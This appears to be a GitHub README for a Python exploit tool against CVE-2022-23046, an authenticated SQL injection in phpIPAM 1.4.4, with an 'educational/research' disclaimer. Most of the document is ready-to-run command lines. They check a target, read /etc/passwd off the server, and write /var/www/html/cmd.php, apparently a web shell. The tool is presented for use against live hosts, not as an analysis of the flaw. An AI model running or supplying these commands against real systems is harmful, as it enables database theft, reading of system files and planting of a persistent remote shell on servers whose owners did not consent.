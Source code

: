 # Project Title

CVE-2022-23046 phpIPAM 1.4.4 - SQL Injection

## Description

phpIPAM v1.4.4 allows an authenticated admin user to inject SQL sentences in the subnet parameter while searching a subnet via app/admin/routing/edit-bgp-mapping-search.php. This project currently prints out database information and host version information. It can also attempt to read files and write to the server as well.

## Getting Started

### Executing program

* To check if it is vulnerable.
```
python3 phpipam_1.4.4.py -t http://phpipam.com/ -u username -p password
```
* For test for file read
```
python3 phpipam_1.4.4.py -t http://phpipam.com/ -u username -p password -f /etc/passwd
```
* For test for file write
```
python3 phpipam_1.4.4.py -t http://phpipam.com/ -u username -p password -w /var/www/html/cmd.php
```

## Help

For Help Menu
```
python3 phpipam_1.4.4.py -h
```

## Acknowledgments

* [FluidAttacks](https://fluidattacks.com/advisories/mercury/)

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.